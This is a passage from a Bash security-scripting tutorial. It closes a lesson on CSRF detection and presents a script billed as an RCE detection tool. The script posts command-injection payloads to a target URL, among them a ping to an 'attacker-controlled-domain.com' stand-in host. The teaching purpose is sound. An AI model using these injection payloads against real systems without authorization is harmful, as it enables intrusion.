Replace `http://example.com/transfer` with the URL of the vulnerable endpoint susceptible to CSRF attacks.

#### Considerations:
- **Payloads**: Customize the list of CSRF payloads based on the specific actions and parameters vulnerable to CSRF attacks in the target web application.
- **HTTP Method**: Adjust the HTTP method (`-X POST` in this example) and payload format based on the target web application's request handling.
- **Response Analysis**: Analyze the responses from the web server to identify any indications of successful CSRF attacks, such as changes in user account balances or unexpected actions performed.

By creating a simple CSRF detection tool with Bash scripting, you can automate the process of identifying potential CSRF vulnerabilities in web applications, helping to enhance security and protect users' data and accounts.

In the next lesson, we'll discuss additional security considerations and best practices for developing and using security tools effectively.

### Lesson 16: Creating Remote Code Execution (RCE) Detection Tools with Bash

Remote Code Execution (RCE) vulnerabilities allow attackers to execute arbitrary code on a target system, potentially leading to unauthorized access or data breaches. In this lesson, we'll develop a simple RCE detection tool using Bash scripting:

#### Use Case: RCE Detection Tool

Let's create a Bash script that scans a website or server for potential RCE vulnerabilities by injecting commands and analyzing the responses.

**Bash Script:**
```bash
#!/bin/bash
# This is a comment

# Function to perform RCE detection
detect_rce() {
    echo "Detecting RCE vulnerabilities..."
    # Define RCE payloads
    payloads=("ping -c 1 attacker-controlled-domain.com" "echo 'Vulnerable' > /tmp/rce_vulnerable.txt")

    # Iterate over payloads and inject them into vulnerable parameters
    for payload in "${payloads[@]}"; do
        echo "Testing payload: $payload"
        curl -s -d "param=$(echo $payload | base64)" -X POST "$1"
    done
}

# Main function
main() {
    echo "RCE Detection Tool"
    echo "------------------"

    # Validate input
    if [ $# -ne 1 ]; then
        echo "Usage: $0 <target_url>"
        exit 1
    fi

    # Perform RCE detection
    detect_rce "$1"
}

# Call main function with target URL as argument
main "$@"
```